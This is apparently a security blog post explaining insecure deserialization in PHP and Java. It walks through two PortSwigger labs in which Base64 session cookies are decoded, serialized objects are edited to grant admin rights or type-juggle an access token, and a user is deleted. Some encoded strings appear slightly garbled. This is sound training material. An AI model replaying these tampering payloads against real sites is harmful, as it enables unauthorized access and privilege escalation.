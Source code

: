 ```yaml
---
layout: post
title: Insecure deserialization
subtitle: Insert serialized malicious command, and it triggers when the application deserialization.
date: 2025-07-30 09:59
author: Ren Sie
comments: true
category: injection
thumbnail-img: /assets/img/githubpost/Insecure_deserialization._thumb.png
share-img: /assets/img/Post_Cover.png
---
```


The attack can lead to RCE, privilege escalation, arbitrary file access, and denial-of-service attacks.

### Serialization
Turns the complex data objects into a stream of data. Which make it easier to store or transfer.

#### PHP
- Letters = data type.
- Numbers = length of each entry.
- Serialize method: serialize() and unserialize()
If you have source code access, start by looking for unserialize() and investigating further. 
~~~
O:4:"User":2:{s:4:"name":s:6:"carlos";s:10:"isLoggedIn":b:1;} 
~~~
This can be interpreted as follows:
> O:4:"User" - Object w/ 4-character class name "User"  
> 2 - Object has 2 attributes  
> s:4:"name" - The key of the first attribute is the 4-character string "name"  
> s:6:"carlos" - The value of the first attribute is the 6-character string "carlos"  
> s:10:"isLoggedIn" - The key of the second attribute is the 10-character string "isLoggedIn"  
> b:1 - The value of the second attribute is the boolean value true

#### Java
Serialized Java objects always begin with the same bytes which are encoded:
- Hexadecimal: ac ed
- Base64: rO0
- Method: java.io.Serializable
If you have source code access, take note of any code that uses the readObject() method, which is used to read and deserialize data from an InputStream.  

### Deserialization
Reverse the process of Serialization, turn data stream back to data objects.  
If a website deserializes data that comes from the user, it can be dangerous. because the attacker can change the serialized data.

#### Manipulating serialized objects
1. Look at the serialized data.
2. Find important values (e.g., user roles or permissions).
3. Edit those values.
4. Send the modified object back to the website.
5. The website deserializes the object.
6. The website uses your edited values.

### Labs
Just for demostration, I completed a couple of labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#insecure-deserialization) to show what this vulnerability can lead to:

#### 1. Modifying serialized objects 
In this instance, I will try editing the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges.  
<details markdown="1">
  <summary>Click me to expand the process</summary>  
1. Firstly, I capture and analyze the session cookie from the response of the `GET /my-account request` using Burp Proxy. Then decode the session cookie from Base64 to reveal the serialized data: 
~~~
Session Cookie: Tzo0OiJVc2VyljoyOntzOjg6lnVzZXJuYW1lljtzOjY6lndpZW5lcil7czo1OiJhZG1pbil7YjowO30
Decoding Result: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
~~~

2. I notice there's admin parameter, I modify the serialized object by changing `'admin;b:0'` to `'admin;b:1'`, granting admin privileges.  
After that, re-encode the modified serialized data back into Base64 and use it as the new session cookie. 
~~~
Serialized Object: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;} 
Encoding Result: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30g
~~~

3. Send another `GET /my-account request` to the web application using Burp Repeater with the modified session cookie.  
Once that's done I see a `GET /admin request` is captured in Burp Proxy, but initially returns 401 Unauthorized.  

4. I resend the `GET /admin request` with the modified session cookie by Burp Repeater. This time, it returns 200 OK, confirming admin access.
</details>

#### 2. Modifying serialized data types
In this instance, I edit the serialized object in the session cookie to access the administrator account. Then, delete the user carlos.  
<details markdown="1">
  <summary>Click me to expand the process</summary>  
1. Firstly, I capture and analyze the session cookie from the response of the `GET /my-account request` using Burp Proxy. Then decode the session cookie from Base64 to reveal the serialized data: 
~~~
Session Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJqeGoxb2NpcHZreTFpZzE0bzF1ajV0Nmt5bHlpYnoweiI7
Decoding Result: O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"jxj1ocipvky1ig14o1uj5t6kylyibz0z";
~~~

2. Then I modify the serialized data type by changing:  
   - "username";s:6:"wiener" > "username";s:13:"administrator"
   - "access_token";s:32:"jxj1oc..." > "access_token";i:0;

3. Re-encode the modified serialized data back into Base64 and use it as the new session cookie.
~~~
Serialized Object: O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
Encoding Result: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
~~~

4. I decide to use different approach from the previous instance. Instead of using Burp Repeater, I insert the encoded modified cookie session from the developer tool. 
   - Right click on the page > Inspect > Application > Cookies > Paste the cookie into "Value"
   - Value: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
 
5. Once that's done, refresh the page, and we will access the admin account. I then navigate to admin panel and delete user "carlos" account.
</details>

